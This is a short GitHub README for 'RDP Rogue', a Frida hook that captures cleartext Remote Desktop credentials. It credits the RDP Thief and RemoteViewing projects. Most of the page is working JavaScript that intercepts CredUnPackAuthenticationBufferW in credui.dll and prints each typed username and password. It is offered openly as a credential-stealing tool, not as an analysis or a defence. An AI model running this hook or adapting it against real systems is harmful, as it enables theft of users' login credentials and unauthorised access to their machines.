

# RDP Rogue

Dirty Frida Hook to retrieve RDP credentials based on  [FuzzySec's](https://twitter.com/FuzzySec) [RemoteViewing](https://github.com/FuzzySecurity/Sharp-Suite#remoteviewing) and [@0x09AL](https://twitter.com/0x09AL) [RDP Thief](https://www.mdsec.co.uk/2019/11/rdpthief-extracting-clear-text-credentials-from-remote-desktop-clients/) projects

```js
console.log('works!');
const CredUnPackAuthentication = Module.getExportByName('credui.dll','CredUnPackAuthenticationBufferW');

Interceptor.attach(CredUnPackAuthentication,{
	onEnter: function (args){
		console.log('Getting username and password pointers');
		this.ptr_user=args[3];
		this.ptr_pass=args[7];
		
	},
	onLeave: function (retval) {
		console.log('Post-Call Values');
		console.log(Memory.readUtf16String(this.ptr_user)+':'+Memory.readUtf16String(this.ptr_pass));
  }
});
```



### References

[RDP Thief](https://www.mdsec.co.uk/2019/11/rdpthief-extracting-clear-text-credentials-from-remote-desktop-clients/)

[RemoteViewing](https://github.com/FuzzySecurity/Sharp-Suite#remoteviewing)